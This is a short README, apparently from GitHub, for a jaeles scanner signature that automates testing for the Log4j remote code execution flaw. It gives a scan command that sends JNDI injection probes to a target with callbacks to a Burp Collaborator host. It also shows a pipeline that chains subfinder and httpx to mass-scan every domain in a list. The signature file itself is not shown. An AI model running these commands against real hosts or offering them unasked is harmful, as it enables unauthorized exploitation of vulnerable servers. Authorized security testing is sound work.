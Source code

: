 # log4j_Signature

This signiture for automate `log4j RCE` via [jaeles](https://github.com/jaeles-project/jaeles) 

Run This command after installing [jaeles](https://github.com/jaeles-project/jaeles)
```javascript
jaeles scan -v -s jndi.yaml -p 'dest=XXxxx.burpcollaborator.net -u http://example.com
```
You can use it with [subfinder](https://github.com/projectdiscovery/subfinder) and [httpx](https://github.com/projectdiscovery/httpx)
```
subfinder -dL domains.txt -silent | httpx | jaeles scan -v -s jndi.yaml -p 'dest=XXxxx.burpcollaborator.net'
```

# POC
![poc](poc.png)
